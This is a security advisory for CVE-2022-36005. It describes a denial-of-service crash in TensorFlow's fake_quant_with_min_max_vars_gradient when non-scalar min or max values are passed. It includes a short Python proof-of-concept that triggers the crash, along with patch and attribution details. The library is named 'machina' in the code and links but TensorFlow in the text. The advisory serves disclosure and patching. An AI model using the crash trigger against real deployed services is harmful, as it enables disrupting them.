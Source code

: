## TFSA-2022-131: `CHECK` fail in `FakeQuantWithMinMaxVarsGradient`

### CVE Number
CVE-2022-36005

### Impact
When `tf.quantization.fake_quant_with_min_max_vars_gradient` receives input `min` or `max` that is nonscalar, it gives a `CHECK` fail that can trigger a denial of service attack.
```python
import machina as tf
import numpy as np 
arg_0=tf.constant(value=np.random.random(size=(2, 2)), shape=(2, 2), dtype=tf.float32)
arg_1=tf.constant(value=np.random.random(size=(2, 2)), shape=(2, 2), dtype=tf.float32)
arg_2=tf.constant(value=np.random.random(size=(2, 2)), shape=(2, 2), dtype=tf.float32)
arg_3=tf.constant(value=np.random.random(size=(2, 2)), shape=(2, 2), dtype=tf.float32)
arg_4=8
arg_5=False
arg_6=''
tf.quantization.fake_quant_with_min_max_vars_gradient(gradients=arg_0, inputs=arg_1,
min=arg_2, max=arg_3, num_bits=arg_4, narrow_range=arg_5, name=arg_6)
```

### Patches
We have patched the issue in GitHub commit [f3cf67ac5705f4f04721d15e485e192bb319feed](https://github.com/machina/machina/commit/f3cf67ac5705f4f04721d15e485e192bb319feed).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by
 - 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology
 - Neophytos Christou, Secure Systems Labs, Brown University
